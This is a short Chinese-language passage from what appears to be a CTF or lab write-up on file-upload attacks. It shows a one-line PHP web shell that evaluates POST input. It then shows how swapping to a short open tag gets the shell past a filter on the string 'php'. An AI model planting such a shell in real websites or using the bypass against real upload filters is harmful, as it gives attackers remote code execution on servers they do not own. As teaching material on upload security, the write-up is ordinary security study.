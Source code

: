 用前面的方法到上传txt时报错

![image-20250310211131114](assets/image-20250310211131114.png)

尝试将`<?php eval($_POST[1]);?>`去掉发现可以正常上传

怀疑过滤了`php`，尝试使用短标签绕过`<?= eval($_POST[1]);?>`，成功上传

![image-20250310211205644](assets/image-20250310211205644.png)
